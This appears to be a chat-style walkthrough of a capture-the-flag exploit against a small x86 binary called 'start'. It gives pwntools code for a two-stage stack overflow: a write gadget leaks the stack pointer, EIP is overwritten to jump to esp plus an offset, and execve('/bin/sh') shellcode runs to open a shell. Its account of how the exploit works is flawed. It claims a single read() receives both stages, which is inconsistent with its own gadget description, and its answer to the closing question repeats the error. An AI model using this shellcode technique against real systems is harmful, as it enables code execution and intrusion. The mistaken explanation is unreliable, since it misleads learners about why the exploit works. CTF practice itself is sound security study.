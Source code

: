 ```python
payload_stage2  = padding
payload_stage2 += p32(esp + offset)  # EIP: jump to esp + 20 (sometimes need +24, etc.)
payload_stage2 += shellcode          # The shellcode is appended right after.

# Send stage 2. This still goes into the same read call on the server side.
p.send(payload_stage2)

# If the offset is correct, execution will land in our shellcode. We should get a shell.
p.interactive()

```

### How It Works

1. **Single `read()`, But Two Partial Sends**\
   The `start` binary only calls `read()` **once** and can read up to 60 bytes. By doing `p.send(...)` twice, you place two separate chunks into that single buffer:
   * **Stage 1:** Overwrite EIP with `0x08048087`, which triggers a `write` syscall that leaks the top 20 bytes of the stack (including the stack pointer).
   * **Stage 2:** Once you know `ESP`, you send more data that overwrites EIP _again_, this time pointing into your shellcode.
2.  **The Write Gadget (0x08048087)**\
    This gadget does:

    ```assembly
    assemblyCopyEditmov ecx, esp
    mov dl, 0x14      ; set EDX=0x14 (20 in decimal)
    mov bl, 1         ; EBX=1 => stdout
    mov al, 4         ; EAX=4 => sys_write
    int 0x80
    ```

    Result: `write(1, esp, 20)`. You receive those 20 bytes in your script with `p.recv()`. The first 4 bytes is the stack pointer, which is critical because you need to know where in memory you can safely place—and jump to—your shellcode.
3. **Crafting the Final Jump (Stage 2)**
   * You create another 20-byte padding to fill the buffer.
   * Overwrite EIP with `esp + offset`.
   * Append your shellcode.
   * Because the program is still in the same `read()`, all 40+ bytes (first stage + second stage) end up in the same buffer. After the write gadget returns, the CPU “continues” into memory that now holds your second overwrite, eventually jumping to `esp + offset` and running your shellcode.
4. **Shellcode**\
   The code is a standard Linux/x86 `execve("/bin/sh")` shellcode. After successfully calling `execve`, you get an interactive shell if all offsets align.

how did we can send two input when the connection has one read() only?

Because the server is doing a single `read()` call of _up to_ some maximum number of bytes (e.g., 60), it will sit there waiting until either:

1. It has read that many bytes, **or**
2. The client closes the connection (EOF).
